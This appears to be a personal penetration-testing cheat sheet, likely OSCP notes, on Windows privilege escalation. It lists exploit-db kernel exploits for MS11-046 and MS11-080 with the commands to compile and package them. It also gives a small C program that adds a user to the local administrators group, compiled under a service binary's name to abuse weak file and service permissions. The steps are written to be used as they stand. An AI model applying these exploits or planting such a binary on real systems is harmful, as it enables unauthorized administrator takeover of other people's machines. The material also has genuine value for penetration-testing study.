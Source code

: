 # Windows Privilage Escalation
------------------------------------

MS11-046 "afd.sys" 
---------------------------------------
Supported Versions: xp-win7

https://www.exploit-db.com/exploits/40564

Complie it using the following command:
------

i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 

--------------------------------------
MS11-080 "afd.sys"
---------------------------------------
Supported Versions: xp/2003

https://www.exploit-db.com/exploits/18176

Run it on the client machine.

python pyinstaller.py --onefile ms11-080.py (on windows!)

** I already compiled the exploit and uploaded it to my private repo on "https://www.github.com/NetanelShoshan/OSCP" 

--------------------------------------
Incorrect File and Service permissions:
---------------------------------------
useradd.c

include <stdlib.h>
/* system, NULL, EXIT_FAILURE */
int main ()
{
int i;
i=system ("net localgroup administrators low /add");
return 0;
}
Compile the code above using the following command:
----
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

--------------------------------------
LOLBINS (Windows Version)

https://lolbas-project.github.io/#